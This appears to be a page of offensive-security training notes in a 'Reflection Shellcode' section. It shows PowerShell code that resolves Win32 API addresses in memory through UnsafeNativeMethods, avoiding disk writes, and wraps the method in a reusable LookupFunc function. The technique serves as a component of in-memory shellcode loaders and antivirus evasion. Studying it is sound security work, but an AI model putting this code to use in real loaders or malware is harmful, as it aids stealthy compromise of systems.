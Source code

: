 ```yaml
---
title: Unsafe Native Methods
layout: default
parent: Reflection Shellcode
grand_parent: Client Side Execution
nav_order: 1
---
```


1. To avoid writing to disk, we need to perform dynamic lookup of function address instead of `Add-Type` and `DllImport`. 
2. This can be achieved by using Win32 API `GetModuleHandle` and `GetProcAddress`.
3. Since we cannot use them directly to avoid writing to disk, need to find assembly that we can use to invoke these API.

   ```powershell
   $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
   $Assemblies |
       ForEach-Object {
           $_.GetTypes() |
               ForEach-Object {
                   $_ | Get-Member -Static| Where-Object {
                       $_.TypeName.Contains('Unsafe')
                   }
           } 2> $null
       }
   ```

4. Next, perform a filter and search for the location that these APIs are located by adding `$_.Location`. Based on the results, they are `static` and the typename is `Microsoft.Win32.UnsafeNativeMethods` (Use `Contains` instead of `Equals` to avoid error).

   ```powershell
   $Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
   $Assemblies |
     ForEach-Object {
       $_.Location
       $_.GetTypes()|
         ForEach-Object {
           $_ | Get-Member -Static| Where-Object {
             $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
           }
       } 2> $null
     }
   ```

5. After we identify that it is coming from System.dll, we can use the following to search for the required API (in this case `GetModuleHandle`).

   ```powershell
   $systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
   $unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
   $GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
   ```

6. Then we can use the following search for the DLL base address (for example user32.dll):

   ```powershell
   $GetModuleHandle.Invoke($null, @("user32.dll"))
   ```

7. If you try to do a `$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')` you will get an error "Ambiguous match found.". Instead we need to do this for multiple occurence (we are using tmp[0] which is the first entry):

   ```powershell
   $user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
   $tmp=@()
   $unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
   $GetProcAddress = $tmp[0]
   $GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
   ```

8. Finally to reuse this multiple times, wrap them in function:

   ```powershell
   function LookupFunc {
     Param ($moduleName, $functionName)
     $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
     Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
       Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
     $tmp=@()
     $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
     return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
   @($moduleName)), $functionName))
   }
   ```

9. To use the function above, do this:

   ```powershell
   LookupFunc "user32.dll" "MessageBoxA"
   ```
